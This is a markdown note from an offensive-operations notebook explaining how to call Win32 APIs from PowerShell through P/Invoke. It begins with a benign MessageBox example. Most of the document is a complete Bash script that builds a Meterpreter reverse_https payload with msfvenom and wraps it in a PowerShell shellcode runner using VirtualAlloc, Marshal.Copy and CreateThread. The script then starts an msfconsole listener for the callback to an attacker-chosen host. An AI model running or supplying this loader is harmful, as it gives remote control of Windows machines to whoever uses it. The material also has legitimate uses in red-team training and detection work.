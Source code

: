 ```yaml
---
title: Executing Win32 APIs in PowerShell
tags:
  - breach
  - operations
  - win32api
  - api
  - powershell
  - execution
  - shellcode
---
```


We can't execute **Win32API** methods directly from PowerShell. What are
**Win32API** methods? We discuss them in
[[phishing-in-microsoft-office#Calling Win32API|Phishing in Microsoft Office - Calling Win32API]].
These are methods usually implemented in `.dll`s like `kernel32.dll` that you
can usually find in `C:\Windows\System32`.

We can, however, compile and execute C# (CSharp) from PowerShell, and invoke
these methods using the .NET Framework. Using
[Platform Invoke (P/Invoke)](https://learn.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke),
we can directly reference **Win32API** methods implemented in our target
`.dll`s.

For effective translation of C# types to C/C++ types for parameters defined in
these **Win32API** methods, we can reference helpful documentation provided at
[pinvoke.net](https://www.pinvoke.net/). The following PowerShell script
demonstrates how to invoke **user32.MessageBox** from `user32.dll` using
**P/Invoke** and **C#**:

```powershell
$User32 = @"
using System;
using System.Runtime.InteropServices;

public class User32 {
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int MessageBox(IntPtr hWnd, String text,
        String caption, int options);
}
"@

Add-Type $User32

[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

### Executing shellcode in PowerShell

The following example uses the interoperability features described above to
define references to the `VirtualAlloc` and `CreateThread` methods from
`kernel32.dll` . This **Bash** script will generate a **Meterpreter**
`windows/x64/meterpreter/reverse_https` payload directed to callback to a
provided `LHOST` and `LPORT`for the next stage of the **Meterpreter** payload.

The PowerShell shellcode buffer for the **Meterpreter** payload will be placed
into a **PowerShell** script that will call `VirtualAlloc` to allocate an `RWX`
memory segment within the current process. The script will proceed to call
`System.Runtime.InteropServices.Marshal` to copy the shellcode from managed
memory to unmanaged memory - copying our shellcode to the newly created buffer
from the previous `VirtualAlloc` call. Finally, we call `CreateThread`
providing an address to our shellcode payload memory segment to gain shellcode
execution.

After generating our PowerShell payload, we kick off an `msfconsole` session to
listen for our **Meterpreter** payload callback:

```bash
#!/bin/bash

set -ex -o pipefail

MSFPAYLOAD="windows/x64/meterpreter/reverse_https"
MSFCONSOLE=$(which msfconsole)
MSFVENOM=$(which msfvenom)


msfvenom() {
    PAYLOAD=$($MSFVENOM \
        -p $MSFPAYLOAD \
        LHOST=$LHOST \
        LPORT=$LPORT \
        EXITFUNC=thread \
        -f ps1 2>/dev/null)
}


generate_powershell() {
    tee payload.ps1 << EOF
\$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type \$Kernel32

$PAYLOAD

\$size = \$buf.Length

[IntPtr]\$addr = [Kernel32]::VirtualAlloc(0, \$size, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy(\$buf, 0, \$addr, \$size)

\$thandle=[Kernel32]::CreateThread(0, 0, \$addr, 0, 0, 0)

[Kernel32]::WaitForSingleObject(\$thandle, [uint32]"0xFFFFFFFF")
EOF
}

listen() {
    $MSFCONSOLE \
        -q \
        -x "use multi/handler; \
            set payload $MSFPAYLOAD; \
            set LHOST $LHOST; \
            set LPORT $LPORT; \
            exploit"
}


LHOST=$1
LPORT=$2

msfvenom
generate_powershell
listen
```
